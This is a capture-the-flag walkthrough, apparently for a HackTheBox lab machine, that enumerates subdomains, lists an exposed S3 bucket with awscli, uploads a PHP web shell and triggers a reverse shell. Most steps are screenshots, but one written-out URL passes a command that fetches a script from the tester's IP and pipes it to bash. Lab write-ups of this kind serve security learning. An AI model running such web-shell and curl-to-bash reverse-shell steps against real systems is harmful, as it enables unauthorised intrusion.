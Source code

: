 #cloud #aws #reverseshell 

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/9b41165e-4ec8-4851-ae7e-98d7cbf17a0c)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/2c12aaf8-de9d-4755-b7d4-3360fa3b28e7)


Load the website and scroll down:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/089375b8-fa9d-42ab-9795-278db49f2db9)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/b0746627-88bd-43ad-bc46-f8da4613b967)


Add the IP + thetoppers.htb to the /etc/hosts file:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/cfc51877-33c9-4688-9492-9ab0efc6c8cf)

or

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/c6a70443-2d69-45b8-871e-93bb216f5b0f)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/81eeefcf-e734-4551-8acc-45403de06c4d)


![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/0da18fcd-560a-45bc-b56f-d9e79f563ee7)


## Subdomain Enumeration

Can use wfuzz, gobuster, or feroxbuster

### Using gobuster v3.6

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/07a04c9b-1b9b-42bf-a339-3bc635f35a1e)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/ac8dc4cb-b723-44d0-a9e8-19d20a022737)


s3.thetoppers.htb won't load so let's add it to the etc/hosts file again:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/7e113c38-8489-48a5-9c13-89e61fd3e253)


The webpage now loads:
![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/016f2119-094a-46c2-92d6-1a6c927c7a4a)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/2866fed5-8ec2-49bd-a96a-255f3b61affb)


Use awscli to interact with s3 buckets. To install awscli: 

	$ sudo apt install awscli

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/6b271a2d-621a-47f2-a95c-508a993aacde)


Configure aws:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/1e6177c1-c173-413f-97bf-8d618877c770)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/b104d36e-aa5f-4890-835f-c592d9986e61)
![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/f16d1b2a-6f64-495c-a0d6-a6359685b1d3)


List all s3 buckets:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/d5ed64f4-94ec-482d-9c10-ed3d1da28e5e)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/510ffd92-72d0-4891-8db1-b4315d424691)


List objects and common prefixes:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/6f758d2f-c3e7-46a4-af82-453174b21882)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/c80c9680-3d06-4338-a125-8102e31e9681)


## Code Execution

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/e3abb06b-a14a-4978-bd46-99e5386445bc)


Upload the shell to the website's s3 bucket:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/45814a2e-50e7-4158-9e23-c8c70cad9605)


Check to see that the shell.php file has been uploaded:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/90d1033f-b426-4cb0-adf7-7d2feda921ba)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/1d7f54f6-3607-40c5-8d3f-47f6677226b2)


### Attempt to get a reverse shell 
Save this payload to a new shell.sh file (change <YOUR_IP_ADDRESS>): 

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/19fdf39a-7bb3-440b-ba89-aa453ed80810)

Start a listener:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/5cffb85f-ad53-4eef-9276-9b8346ea14b5)

Start a server (in the directory the shell script is in):

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/1ba0165d-c9e7-485c-8048-6c4f733cfbc8)


Use curl to fetch the shell script & pipe it to bash for execution:

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/240cb2f2-a4da-4b1d-938d-450e42a5de59)


Inputting the following URL into the browser gets us a reverse shell:

	http://thetoppers.htb/shell.php?cmd=curl1%2010.10.14.111:8000/shell.sh|bash
 
![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/8fd98ef1-1106-46da-b978-81fd7af05728)


## Flag:
Reverse Shell achieved:
![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/3c55ead6-13b5-46f6-b65b-970654fcd720)

![image](https://github.com/Meowdypi/HackTheBox/assets/122643833/7e550894-d3c5-4fdc-8370-3960015f4363)

